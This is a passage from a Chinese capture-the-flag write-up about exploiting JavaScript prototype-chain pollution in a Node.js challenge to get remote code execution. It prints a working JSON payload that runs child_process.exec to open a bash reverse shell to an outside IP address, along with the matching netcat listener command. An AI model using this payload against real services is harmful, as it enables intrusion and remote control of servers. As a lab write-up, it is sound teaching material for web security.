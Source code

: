 同样的在找不到对应对象/属性时，会遍历object

![](https://i.loli.net/2021/09/06/UrLy6MQGxRZcbY1.png)

因此由于调用`copy`方法时，原型链被污染，导致`query`的值为`"return 111"`

![](https://i.loli.net/2021/09/06/D1BVoJLWEgIQcu9.png)

然后我们会发现`{ query: Function(query)(query)}`为`{ query: 111 }`
也就是`Function(query)(query)=111`

原因如下：

> 每个 JavaScript 函数实际上都是一个 `Function` 对象。运行 `(function(){}).constructor === Function // true` 便可以得到这个结论。

语法：

```js
new Function ([arg1[, arg2[, ...argN]],] functionBody)
```

如下，一个小尝试

![](https://i.loli.net/2021/09/06/T6dqhZQStA5iKIx.png)

那么同理

![](https://i.loli.net/2021/09/07/St7hyHp9DuCr6kN.png)

由此可以控制api中的`{ query: Function(query)(query)}`从而实现rce

那么本题的思路就是利用copy函数进行原型链污染，再利用api.js来rce
这里可以弹个shell从而获取flag

payload：

```json
{"__proto__":{"query":"return global.process.mainModule.constructor._load('child_process').exec('bash -c \"bash -i >& /dev/tcp/119.3.217.40/6666 0>&1\"')"}}
```

![](https://i.loli.net/2021/09/07/vJktSTeshuY8zj1.png)

![](https://i.loli.net/2021/09/07/yt5YfMHKZAi4Rsw.png)

然后在vps上nc监听：(ps:使用vps的话，要在安全组选项配置好端口的出入规则--)

```sh
nc -lnvp 6666
```

flag:![](https://i.loli.net/2021/09/07/Q81k2r5pbq7inMc.png)



## 340 原型链污染++

> 下载源码：
> 看关键部分：
>
> ```js
> var flag='flag_here';
> var user = new function(){
>  this.userinfo = new function(){
>  this.isVIP = false;
>  this.isAdmin = false;
>  this.isAuthor = false;     
>  };
> }
> utils.copy(user.userinfo,req.body);